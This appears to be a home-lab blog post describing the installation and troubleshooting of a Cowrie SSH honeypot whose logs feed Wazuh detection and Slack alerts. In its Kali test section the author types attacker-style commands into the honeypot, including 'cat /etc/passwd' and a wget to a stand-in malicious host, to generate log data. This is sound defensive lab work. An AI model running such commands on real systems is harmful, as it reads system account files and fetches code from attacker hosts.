

Cowrie SSH Honeypot
Extended my Active Directory lab by deploying a Cowrie SSH honeypot that captures every login attempt and command typed by attackers, feeding everything into Wazuh for automated detection and Slack alerting.
Lab Overview
Why I Added a Honeypot
After getting Active Directory running and wiring up Wazuh with Slack alerting, I wanted to take the deception side of the SOC further. The existing setup was great at detecting attacks against real machines — but a honeypot adds something different. It's a system that has no legitimate reason for anyone to connect to it, which means any traffic hitting it is automatically suspicious with zero false positives.
I chose Cowrie — a lightweight SSH honeypot that logs every login attempt, every command an attacker types, and every file they try to upload — and planned to feed all of that straight into the Wazuh manager already running at 192.168.10.10.
Updated Lab Topology
The diagram below shows the full updated pipeline with the Cowrie honeypot added as a fifth VM at 192.168.10.50. Kali attacks both the Windows target via RDP and the honeypot via SSH — both paths feed into Wazuh and fire Slack alerts through the same pipeline.

Spinning Up the Ubuntu Server VM
Created a fresh Ubuntu Server VM in VirtualBox. The honeypot doesn't need power, it just needs to sit and listen.
| Spec | Value |
|---|---|
| RAM | 1 GB |
| CPU | 1 core |
| Disk | 20 GB |
| OS | Ubuntu Server 24.04 |
| IP | 192.168.10.50 (static, internal NAT) |
Networking Configuration
The first issue was networking. The VM came up on regular VirtualBox NAT, giving internet access but isolating it from the lab. Fixed by adding a second adapter in VirtualBox — Adapter 1 stays as NAT for internet, Adapter 2 set to Internal Network matching AD-Project-Net. Then edited Netplan to assign the static lab IP:
network:
version: 2
ethernets:
enp0s3:
dhcp4: true
enp0s8:
dhcp4: false
addresses: [192.168.10.50/24]
nameservers:
addresses: [8.8.8.8]Applied with sudo netplan apply. Verified with pings to both google.com and 192.168.10.10.
Installing Cowrie — Problems and Fixes
This was by far the most frustrating part of the build. Several issues stacked on each other and the documentation was outdated in a few critical places.
Cloning the Repo
Created a dedicated user and cloned Cowrie from GitHub:
sudo adduser --disabled-password cowrie
sudo su - cowrie
git clone https://github.com/cowrie/cowrie
cd cowrieProblem: Python venv package missing
python3 -m venv cowrie-env
# Error: The virtual environment was not created because ensurepip is not availableFix: sudo apt install python3-venv -y — then retry the venv command.
Installing Python Dependencies
With the venv fixed, all packages pulled down cleanly:
python3 -m venv cowrie-env
source cowrie-env/bin/activate
pip install --upgrade pip
pip install -r requirements.txtAuthbind and SSH Config
Problem: authbind directory missing
touch /etc/authbind/byport/22
# Error: touch: cannot touch: No such file or directoryFix: sudo apt install authbind -y — this creates the /etc/authbind/byport/ directory.
Then with authbind installed:
sudo touch /etc/authbind/byport/22
sudo chown echkv /etc/authbind/byport/22
sudo chmod 770 /etc/authbind/byport/22Problem: sshd_config was a blank file
Fix: OpenSSH wasn't installed. sudo apt install openssh-server -y created the config files. Added Port 2222 and ran sudo systemctl restart ssh.
Getting Cowrie to Actually Run
This was the most frustrating part of the whole build. Several issues stacked on each other:
Problem: bin/cowrie script no longer exists in modern Cowrie
bin/cowrie start
# Error: -bash: bin/cowrie: No such file or directoryFix: The repo structure changed. Install as a Python package first: pip install -e . which creates the cowrie command inside the venv.
Problem: Twisted plugin missing — Cowrie starts then immediately dies with SIGTERM
twistd: Unknown command: cowrie
Received SIGTERM, shutting down.Fix: The plugin file wasn't registered. Located it with find ~/cowrie/src -name '*.py' | grep -i plugin then copied it manually into the venv's Twisted plugins directory.
The copy command that finally fixed it:
cp /home/echkv/cowrie/src/twisted/plugins/cowrie_plugin.py \
/home/echkv/cowrie/cowrie-env/lib/python3.14/site-packages/twisted/plugins/cowrie_plugin.pyLaunched with the correct PYTHONPATH so Twisted finds the plugin:
PYTHONPATH=/home/echkv/cowrie/src twistd --umask=0022 \
--pidfile=/home/echkv/cowrie/var/run/cowrie.pid \
--logger cowrie.python.logfile.logger cowrieLog confirmed success:
CowrieSSHFactory starting on 2222
Ready to accept SSH connectionsTesting from Kali
With Cowrie running, I connected from the Kali machine:
ssh -p 2222 root@192.168.10.50After a couple of password attempts Cowrie let the connection through into a convincing fake shell. I typed several commands to generate log data:
lswhoamicat /etc/passwdwget http://malicious.example.com
Checked the JSON log on the honeypot VM:
cat ~/cowrie/var/log/cowrie/cowrie.jsonEvery session, every login attempt, every command, and every failed download was captured in structured JSON — source IP, timestamp, exact command string, and session ID tying them all together. Exactly what Wazuh needs to ingest.
Wiring Cowrie into Wazuh
Installed the Wazuh agent on the honeypot VM, registered it to the manager at 192.168.10.10, then added the Cowrie JSON log as a monitored source in /var/ossec/etc/ossec.conf:
<localfile>
<log_format>json</log_format>
<location>/home/echkv/cowrie/var/log/cowrie/cowrie.json</location>
</localfile>Restarted the agent with sudo systemctl restart wazuh-agent. Every connection against the honeypot now flows into Wazuh alongside real machine telemetry. The same MITRE ATT&CK T1110 rule fires on honeypot brute force as on Windows, and the Slack #soc-alerts channel gets the notification within seconds.
What This Adds to the Lab
The honeypot sits silently at 192.168.10.50 with nothing running except Cowrie. No real users, no real services, no reason for anything to connect. Any traffic that hits port 2222 is by definition malicious — there is no false positive scenario. Combined with the active response pipeline already in place, the moment Kali touches the honeypot it is logged, alerted, and the source IP blocked across the whole lab automatically.
| Capability | Detail |
|---|---|
| Zero false positives | No legitimate traffic should ever reach the honeypot |
| Full session logging | Every keystroke and command captured in JSON |
| Wazuh integration | Logs ingested alongside real machine telemetry |
| Automatic alerting | T1110 fires on brute force, Slack notified instantly |
| Auto IP block | Active response blocks attacker across the whole lab |
| MITRE D3FEND mapping | Decoy environment — D3-DE deception technique |
Takeaways
This was a smaller extension to the main SOC automation lab, but it added a completely different layer of detection. Honeypots fill a unique role in security — they don't replace traditional monitoring, they complement it. Real machines have false positives. Honeypots don't. That makes them incredibly powerful for early warning and automated response.
The installation was frustrating — Cowrie's documentation assumes you're following the old install method, and the modern Python package approach broke in several non-obvious ways. But once it was running, the integration with Wazuh was seamless. The same MITRE ATT&CK rules, the same Slack alerts, the same automated blocking — the honeypot just became another data source feeding the pipeline.
If you're building a SOC lab, I'd highly recommend adding a honeypot after you have your core detection working. It's a low-resource addition that gives you deception-based detection with zero noise.